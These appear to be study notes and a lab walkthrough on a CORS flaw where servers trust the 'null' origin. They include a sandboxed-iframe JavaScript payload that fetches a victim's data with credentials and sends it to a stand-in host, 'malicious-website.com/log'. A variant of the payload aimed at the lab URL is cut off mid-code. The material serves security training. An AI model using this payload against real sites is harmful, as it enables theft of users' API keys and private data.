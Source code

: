 # Whitelisted null origin value
- The specification for the Origin header supports the value null. 
- Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.
- Some applications might whitelist the null origin to support local development of the application. 
- For example, suppose an application receives the following cross-origin request:
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```
- And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
- In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. 
- This will satisfy the whitelist, leading to cross-domain access. 
- For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

# Lab: CORS vulnerability with trusted null origin
- This website has an insecure CORS configuration in that it trusts the "null" origin.
- To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. 
- The lab is solved when you successfully submit the administrator's API key.
- You can log in to your own account using the following credentials: wiener:peter

# SOLUTION
- Find the vilnerable URL in burp proxy -> history
- vulnerable URL- https://0a18004d031743178151349f0097003d.web-security-academy.net/accountDetails
- Check for different Origin and check the ACAO header in response
- Try null origin and notice ACAO is allowing null with credentials too
- Construct the following HTML To solve the lab
- The location must be the lab exploit server
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a18004d031743178151349f0097003d.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
```